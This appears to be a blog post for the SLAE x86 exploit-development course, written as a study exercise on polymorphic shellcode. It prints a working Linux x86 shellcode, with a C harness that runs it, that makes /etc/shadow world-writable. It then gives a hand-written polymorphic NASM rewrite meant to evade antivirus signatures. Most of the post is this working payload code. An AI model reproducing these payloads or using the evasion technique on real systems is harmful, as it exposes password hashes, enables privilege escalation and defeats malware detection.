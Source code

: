 ```yaml
---
title:  "SLAE x86 Assignment 6: Polymorphic Shellcode"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome back! In this post, we will look at assignment 6 of the SLAE x86 certification. Let's dive right in!

## Understanding The Objective ##
So what is Polymorphism? It is a technique used by exploit developers in order to prevent detection by anti-viruses, and make it hard for other security researchers to fingerprint and understand malicious shellcode. It is done by replacing instructions with similar ones, or by adding in arbitrary instructions that do not affect the operation of the shellcode, or both.

As you may imagine though, this will lead to an increase in size of the shellcode. With that being said, let's start with our first shellcode!

### Shellcode 1: [chmod(/etc/shadow, 0666) & exit()](http://shell-storm.org/shellcode/files/shellcode-556.php)
This shellcode will change the permissions of ```/etc/shadow``` to 666 by executing a ```chmod```. Written by ka0x, here is the original shellcode. It currently has a size of 33 bytes:
```c
#include <stdio.h>

/*
    linux/x86 ; chmod(/etc/shadow, 0666) & exit() 33 bytes
    written by ka0x - <ka0x01[alt+64]gmail.com>
    lun sep 21 17:13:25 CEST 2009

    greets: an0de, Piker, xarnuz, NullWave07, Pepelux, JosS, sch3m4, Trancek and others!

*/

int main()
{

    char shellcode[] =
            "\x31\xc0"          // xor eax,eax
            "\x50"              // push eax
            "\x68\x61\x64\x6f\x77"      // push dword 0x776f6461
            "\x68\x2f\x2f\x73\x68"      // push dword 0x68732f2f
            "\x68\x2f\x65\x74\x63"      // push dword 0x6374652f
            "\x89\xe3"          // mov ebx,esp
            "\x66\x68\xb6\x01"      // push word 0x1b6
            "\x59"              // pop ecx
            "\xb0\x0f"          // mov al,0xf
            "\xcd\x80"          // int 0x80
            "\xb0\x01"          // mov al,0x1
            "\xcd\x80";         // int 0x80

    printf("[*] ShellCode size (bytes): %d\n\n", sizeof(shellcode)-1 );
    (*(void(*)()) shellcode)();

    return 0;
}
```
Here is a polymorphic version:
```nasm
; SLAE Assignment 6: Polymorphic chmod(/etc/shadow, 0666) & exit()
; Author:  4p0cryph0n
; Website:  https://4p0cryph0n.github.io

global _start

section .text
_start:

  ;clear registers
  lahf                                        ;load flags
  cmc                                         ;complement the carry flag (random stuff)
  xor ecx, ecx                                ;ecx=0
  mul ecx                                     ;eax and ebx=0

  ;chmod
  add al,0xf                                  ;syscall number for chmod
  push ecx                                    ;push nulls onto the stack
  mov dword [esp-4], 0x776f6461               
  mov dword [esp-8], 0x68732f2f               
  mov dword [esp-12], 0x6374652f              ;/etc/shadow
  sub esp, 12                                 ;stack adjustment
  mov esi, esp                                ;move pointer to args into esi
  xchg ebx, esi                              ;move pointer to args into ebx
  push word 0x16d                             ;push 555
  pop ecx                                     ;pop it into ecx
  add ecx, 0x49                               ;add 111 to ecx, which makes it 666
  int 0x80                                    ;syscall
  xor eax, eax                                

  ;exit
  mov al, 0x1
  int 0x80
```
